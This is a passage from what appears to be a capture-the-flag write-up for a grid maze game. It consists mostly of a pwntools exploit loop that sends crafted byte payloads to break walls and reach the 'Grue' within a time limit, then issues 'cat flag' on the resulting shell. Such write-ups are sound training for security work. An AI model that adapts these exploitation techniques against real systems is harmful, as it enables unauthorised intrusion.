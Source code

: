 > The player (us) and Grue are a ways away from 40, 40.  This trial ran out of time.

The combined probability of getting this far is 1 in 64.

```python
    p.sendlineafter(b'): ', b'd')

    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', 0x20 * b'\xff')
    p.sendlineafter(b'): ', b'd')

    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', payload1)
    p.sendlineafter(b'): ', b'd')

    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', payload2)
    p.sendlineafter(b'): ', b'a')

    p.sendlineafter(b'): ', b'a')
    p.sendlineafter(b'): ', b'a')
    p.sendlineafter(b'): ', b'a')

    log.info('time check: {s}s'.format(s = time.time() - t))

    # kick down walls to the grue
    for i in range(39 - gx):
        p.sendlineafter(b'): ', b'x')
        p.sendafter(b'?\n', 0x20 * b'\xff')
        p.sendlineafter(b'): ', b'a')
        if time.time() - t >= 59: break
    if time.time() - t >= 59:
        log.critical('out of time')
        p.close()
        continue

    for j in range(39 - gy):
        p.sendlineafter(b'): ', b'x')
        p.sendafter(b'?\n', 0x20 * b'\xff')
        p.sendlineafter(b'): ', b'w')
        if time.time() - t >= 59: break
    if time.time() - t >= 59:
        log.critical('out of time')
        p.close()
        continue

    log.info('time check: {s}s'.format(s = time.time() - t))

    p.recvuntil(b'Grue.\n')
    break

#p.interactive()
p.sendline(b'cat flag')
print(p.recvline().strip().decode())
```
